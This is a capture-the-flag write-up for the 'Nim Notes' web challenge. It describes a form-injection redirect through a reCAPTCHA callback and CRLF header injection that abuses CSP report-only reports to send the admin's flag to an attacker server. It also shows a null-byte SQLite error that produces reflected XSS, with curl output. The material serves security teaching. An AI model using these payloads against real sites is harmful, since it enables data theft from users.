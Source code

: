 # Nim Notes

* Category: Web
* Score: 500/500
* Solves: 1/428

## Description

I made this note taking web app in Nim as a part of learning it. If you have some cool notes about Nim please share it with me!

## Overview

You have a simple note taking website, which allows you to use markdown to create some notes. The webiste backend is written in Nim, with a small framework called [jester](https://github.com/dom96/jester). You can share you notes with admin (bot), and your target is to steal the flag in admin's notes.

## Solution

The bot only visits `http://web/?user=xxx`, so you might want to direct the bot to your own website first. Your note content are first parsed by marked then filtered by DOMPurify, so you most probably couldn't have a direct XSS (unless you have a DOMPurify 0day lol).

The trick is to notice that recaptcha v2 are used on the website too, and [its documentation](https://developers.google.com/recaptcha/docs/display) listed some ways to interact with it through HTML markup. Obviously, the most interesting things are `data-callback` and `data-error-callback`, they should be specified to be the name of a global function.

Is there anything interesting things can be used as a callback? Of course, there is! In `/js/app.js`, there's a simple function `logout`:

```javascript
function logout() {
	document.getElementById('logout-form').submit()
}
```

It simply submit the `<form>` with id `logout-form`, but the form in `templates/index.html` are located at the very end of HTML, which is after the notes container. If you inject a `<form>` with `logout-form` at container section, it will submit the injected one rather than the original logout one. So you can just provide your website's url to `action` of that form, and it will direct the bot to your site when callback are called.

```html
<form action="YOUR_SERVER" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>peko</button>
</form>
```

> The source of this idea comes from [this tweet](https://twitter.com/oreha_senpai/status/1431947638878838786), BTW

After directing the bot to your website, there are one intended solution and one unintended solution (much easier and less interesting) as far as I know.

The intended solution is to use the fact that `setCookie` is vulnerable to CRLF Injection. Since `sign` function simply concat your message and hash together, your payload is directly passed into `setCookie` almost unmodified if you could success at login/register.

You might think it is easy to XSS after CRLF Injection, but in fact, it is not. The injection point are at `Set-Cookie` header, which is after the CSP header. And it is easy to found that you can't really disable CSP even if you could inject headers in modern Chromium. So you still need to find a way to bypass CSP:

```csp
default-src 'self'; script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
```

The CSP prevents you from using inline `<script>` tag to XSS, but you can trying to load script with current origin. If this CSRF request are `GET`, you can try to construct a Javascript/HTML polyglot and force the browser to cache the response. Then make a `<script>` tag's `src` to point to itself might work. But it is a `POST` in this challenge, so this won't work.

Another option is trying to use the fact HTTP keep-alive are all in a single TCP connection, since Chromium only opens 6 parallel connections at the same time by default, it is possible to make them reuse same connection for HTML and the script. While this is possible in theory, but Chromium will simply disconnect immediately when it sees more content then it is expecting, so it is important to make it align to packet boundary. This is so complicated that I couldn't make it work in this challenge.

> If you want to know more about this, see **PlaidCTF 2021 - Carmen Sandiego** and **Circle City Con CTF 2021 - Sticky Notes**

So it is impossible to XSS this way? I don't know, but you don't really need XSS to exfiltrate the flag. The trick is to abuse the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header, which allows you to specify another set of CSP rules, but it only reports the violation to a specified url without blocking it. And the reported infomation is encoded as a JSON, one of the field `script-sample` contains `The first 40 characters of the inline script, event handler, or style that caused the violation.` by MDN.

What if you can make it send the flag to your server using `script-sample`? See the `createNote` function in `/js/app.js`:

```javascript
function createNote(note) {
	const el = document.importNode(document.getElementById('note-tmpl').content, true)
	el.querySelector('.note-title').textContent = note.title
	el.querySelector('.note-author').textContent = note.author
	el.querySelector('.note-content').innerHTML = DOMPurify.sanitize(marked.parse(note.content))
	return el
}
```

It is expected that flag will be in admin's `note.content`, if `.note-content` element is a `<script>` tag then it will put the content (flag) to `script-sample` and send it to your server!

So it is clear that we can use CRLF Injection to set your own `Content-Security-Policy-Report-Only`, and the body will be a HTML with designed `#note-tmpl` template. You also need to load `/js/app.js`, `/js/marked.min.js` and `/js/purify.min.js` to make it work too. Once the bot trying to load that HTML, the violation will be triggered when it wants to set `innerHTML` to be the flag.

The exploit is [exp.py](exp.py), you need to set the `public_host` variable to be a publicly reachable url of that flask server. After starting it, create a note with following content and share it with admin (bot):

```html
<form action="http://IP_OF_THIS_SERVER/csrf" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>asd</button>
</form>
```

Then the flask server should prints the flag.

## Unintended Solution

You need to direct the bot to your website first too. But the CSRF part is different here.

The trick is that when your username contains `\0` (null byte), it will cause syntax error in Nim's sqlite library. This happens because it [didn't uses sqlite's prepared statement](https://github.com/nim-lang/Nim/blob/d7370ce26962b3b82e6b9be6562f6e88ba7ff86c/lib/impure/db_sqlite.nim#L214).

And the error message are output **directly** to response by Jester, with no CSP headers.

```bash
> curl 'http://34.81.54.62:8765/login' --data $'username=<script>alert(1)</script>%00&password=peko' -v
*   Trying 34.81.54.62:8765...
* Connected to 34.81.54.62 (34.81.54.62) port 8765 (#0)
> POST /login HTTP/1.1
> Host: 34.81.54.62:8765
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 502 Bad Gateway
< Server: nginx
< Date: Mon, 28 Feb 2022 03:08:23 GMT
< Content-Type: text/html;charset=utf-8
< Content-Length: 343
< Connection: keep-alive
<
<html xmlns="http://www.w3.org/1999/xhtml"><head><title>Jester route exception</title></head><body><h1>An error has occured in one of your routes.</h1><p><b>Detail: </b>db_sqlite.nim(198)       dbError<br/>
asyncfutures.nim(389)    read<br/>
asyncfutures.nim(389)    read<br/>
* Connection #0 to host 34.81.54.62 left intact
unrecognized token: "'<script>alert(1)</script>"</p></body></html>
```

So you have an easy XSS now, lol.
